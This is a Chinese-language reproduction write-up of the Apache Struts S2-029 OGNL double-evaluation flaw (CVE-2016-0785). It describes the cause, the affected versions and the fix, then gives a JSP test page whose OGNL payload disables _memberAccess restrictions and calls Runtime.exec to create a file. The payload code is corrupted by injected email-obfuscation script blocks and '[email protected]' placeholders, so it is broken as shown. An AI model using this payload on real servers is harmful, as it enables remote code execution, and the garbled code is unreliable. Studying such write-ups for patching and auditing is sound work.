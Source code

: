 （CVE-2016-0785）S2-029
=======================

一、漏洞简介
------------

代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了"%{}"。最终造成二次执行。因此需要的条件极为苛刻，特殊的代码，value值为空，可以传参到value，控制name，严格来说应该是个本地漏洞。

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）

三、复现过程
------------

S2-029的公告说是可能的远程代码执行。而且依然是ognl导致的。

    The Apache Struts frameworks performs double evaluation of attributes values assigned to certain tags so it is possible to pass in a value that will be evaluated again when a tag’s attributes will be rendered.

目前网上已经有一些成熟的参考的资料了。详见文末参考资料。这次的漏洞虽然是代码执行。但是风险不高，需要开发者使用了特定的代码写法才会导致漏洞。需要直接将用户提交的数据通过标签设置成属性值。

比如：

    <s:i18n name="%{#request.lan}">xxxxx</s:i18n>
    <set var="%{#parameters.tang3}"/>

通过`%{#}`的方式获取用户输入放入标签属性，会导致代码执行。struts2的修复方式也是直接过滤了`%{}`形式的字符串的ognl解析。

1.png

    这段代码的修改用来处理掉了非%{开头，}结尾的字符串进行ognl解析的功能，这里我们来举个例子：bar%Ӑ+3}，在修改之前的代码中2+3是会被作为ognl执行的。那么修改后，这种形式就只会被当做字符串来返回。

审计方式就是查看是否有`%{#}`这种方式获取用户输入变量复制给标签属性的代码写法。

测试代码：

    <<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="20056050414745">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> import="java.util.HashSet"%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <%@ taglib prefix="s" uri="/struts-tags" %>
    <html>
    <head><title>Demo jsp page</title></head>
    <body>
    <%
      request.setAttribute("lan", "'),#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],<a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="f8db99c5b892998e99d69499969fd6aa8d968c91959d">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>@getRuntime(),#a.exec('touch /tmp/1111'),new java.lang.String('");
    %>
    <s:i18n name="%{#request.lan}">xxxxx</s:i18n>
    </body>
    </html>

2.png

查看tmp目录文件已经生成。

3.png
